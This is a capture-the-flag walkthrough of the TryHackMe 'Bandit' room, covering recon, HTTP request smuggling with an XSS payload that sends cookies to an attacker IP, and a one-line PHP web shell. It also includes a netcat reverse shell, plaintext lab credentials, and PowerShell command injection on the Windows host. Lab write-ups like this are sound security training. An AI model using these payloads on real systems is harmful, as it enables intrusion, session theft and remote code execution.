







---
---

# THM - Bandit

- Register to start:


Entry point: **10.200.114.104**


- **<u>NMAP the linux host:</u>**

```bash
nmap 10.200.114.104 -A

```


- NMAP the windows host:
```bash
nmap 10.200.114.10 -p- -A -Pn

```


Add bandit.escape to /etc/hosts

- **Port 80:**


- Directory bruteforce:
```bash
ffuf -u http://bandit.escape/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 428

```


- Since we know there's a login.php, we can bruteforce for php extensions as well
```bash
ffuf -u http://bandit.escape/FUZZ.php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 428

```


- This page is also vulnerable to XSS
```bash
"<script><script>alert('XSS');</script>

```


- Let's try and get a cookie with this one:
```bash
"<script><script>alert(document.cookie)</script>

```
- Just got my own cookie again:


- Looking at the NMAP scan - this server is using **Apache Traffic Server 7.1.1**

- Looking online - there is a HTTP request smuggling exploit for this version
**CVE-2018-8004**

**<u>HTTP request smuggling</u>**

- This website shows how to exploit it (4.3.1 First Patch):

[https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f#:~:text=4.%20HTTP%20Smuggling%20Attack%20Example%20%E2%80%94%20%E2%80%94%20CVE%2D2018%E2%80%938004](https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f#:~:text=4.%20HTTP%20Smuggling%20Attack%20Example%20%E2%80%94%20%E2%80%94%20CVE%2D2018%E2%80%938004)

- Firstly, turn on - Show printable characters:


- As per the website - We need to construct a special HTTP request for smuggling:


- Now add something into the second request, to test if it's vulnerable:



- **The /?filter= bit is unique to this THM room/ webserver parameter (since it's vulnerable to XSS)**

- The first GET request will be executed as normal but the second request will be smuggled

- The goal is to manipulate the front-end server (e.g., a proxy) into interpreting the request in a way that passes the XSS payload to the back-end server (e.g., Apache Tomcat), where it might be executed

- If successful, the XSS payload could be stored in the server's response and later executed when served to other users, leading to XSS attacks against unsuspecting clients

- Make sure Update content-length is **ON**:




- If there isn't a Content-Length parameter - just send the newly crafted HTTP request and the Content-Length will update automatically

- After the HTTP request has been sent (with the Update content-length on) -
Turn **OFF** Update Content-Length:


- This is the vulnerability - Create a **whitespace between Content-Length and the colon :** like so:



- Now click Send - A couple of times (3 or 4 times):


- Looking at the Response body, we can see our payload made it in

- Now craft the real payload to grab a cookie:

- Go through the process again (from point 4.)

- Use the payload (and URL encode it first):
```bash
"<script><script>fetch("http://10.50.111.248:8082//"+document.cookie)</script>

```


- Set up a python server on that port

- Send the payload (click send a couple times):


- Wait for a few minutes - "until someone accesses the site"
- We got someone else's cookie

- The reason this works and the XSS didn't:
  - XSS is primarily a client-side vulnerability that involves injecting malicious scripts into web pages
  - Sending an XSS payload with HTTP request smuggling can deliver and potentially **execute XSS payloads on the server side**,
which can then affect other clients accessing the server's responses

**<u>Continuing</u>**

- In Chrome, inspect the page and go to Storage - add the new cookie in:


- This didn't change anything on the screen (no admin panel or anything)

- Look at the previously inaccessible directories and try them to see if we have rights to access any now:


- We can access /upload.php

- I tried to upload something but got the error:


- So I tried to upload the smallest file (140bytes) but still got the same error

- Looking at the page source - there is a js file that states how big the file can be:


- But my file is less than 500KB

- Open the /upload.php in Burp and send to repeater
- Make sure to change the cookie value:


- Now change the text to something smaller


- The image uploaded successfully

- But navigating to:
<http://bandit.escape/uploads/shell2.php.png>

- We just see the files, saved as a .png image and the rest has been hashed into a filename


- Using hash-identifier we see that it's a MD5 hash:


- Using Cyberchef - input the filename in and choose MD5 hash:


- So we can see that the entire filename gets hashed

- Since the Content-Type already says image/png


- Give a new filename with a .php extension and see if it works

- Also add some php code - the shortest php exploit code available
```bash
<?=`$_GET[0]`?>

```


- Go to cyberchef again and MD5 hash that filename




- Now to access the file we need to go to:
<http://bandit.escape/uploads/d97f005810ddf0a6af6468712f082ca3.php?0=id>


- This is because file got saved but it wasn't a .png so no extension got added. So we need to add .php again
- We also need to add the query parameter **?0=whatever we want** ,ie. id, hostname, cat /etc/passwd

- The way the payload \<?=\`\$\_GET\[0\]\`?\> works is:
  - **?0=id** is being passed as a query parameter in the URL
  - In the PHP code **\<?= \$\_GET\[0\] ?\>**, the **\$\_GET\[0\]** portion retrieves the value associated with the key 0 from the **\$\_GET** superglobal array
  - Because of how PHP handles query parameters, when you pass **?0=id**, PHP interprets 0 as a key in the **\$\_GET** array and id as its corresponding value
  - So, when you pass **?0=id**, the PHP code **\<?= \$\_GET\[0\] ?\>** fetches the value associated with the key 0 from the **\$\_GET** array, which is id





- Now we can inject a reverse shell into the query parameter (just choose the right one) and URL encode it:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.50.111.248 4445 >/tmp/f

```
- Set up nc listener:
```bash
rlwrap -cAr nc -lvnp 4445

```
- Paste it into the query parameter:


- And shell:


- The machine doesn't have anything to exploit like SUID or sudo

- But the shell drops us in the /app directory - the only directory that has anything in

- We can now see the auth.php file in /app/public/auth.php


- And we get the credentials:
**safeadmin : HardcodedMeansUnguessableRight**

- Now we can SSH into the machine


```bash
cat flag.txt

```
- We have all the power:


- Since we can do anything:


- Looking at /etc/hosts


- We get an entry for the windows machine:
10.200.114.10 bandit.corp

- The Windows ports:



- Port 5985 is open - which is the Powershell remoting port
WSMan - Windows Remote Management

- Recursively try and find anything Windows related:
```bash
grep --color=auto -irnw / -e "powershell" 2>/dev/null

grep --color=auto -irnw / -e "pssession" 2>/dev/null

```
- Found a ConsoleHost_history.txt file:


**safeuserHelpDesk : Passw0rd**

- Run:
```bash
pwsh
```

```powershell
$ClearPassword = "Passw0rd"
$SecurePass = ConvertTo-SecureString $ClearPassword -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("safeuserHelpDesk", $SecurePass)

Enter-PSSession -ComputerName bandit.corp `
    -Credential $credential `
    -ConfigurationName testHelpDesksafe `
    -Authentication Negotiate

```


**<u>Bypass powershell constrained language mode:</u>**

- See what commands we have:
```bash
Get-Command

```


- Looks like a custom cmdlet


- We can use Invoke-Expression through this command

**<u>Powershell command injection:</u>**

- Trying different combinations


- We can parse the single quote but not the double quote

- Running whoami:
```bash
Get-ServicesApplication -Filter '$(whoami)'

```
*winrm virtual users\winrm va_2_ec2amaz-a6s61fr_safeuserhelpdesk*

- Find users:
```bash
Get-ServicesApplication -Filter '$(dir C:\Users)'

```


- Look on Administrators Desktop:
```bash
Get-ServicesApplication -Filter '$(dir C:\Users\Administrator\Desktop)'

```


- Read root.txt
```bash
Get-ServicesApplication -Filter '$(type C:\Users\Administrator\Desktop\root.txt)'

```

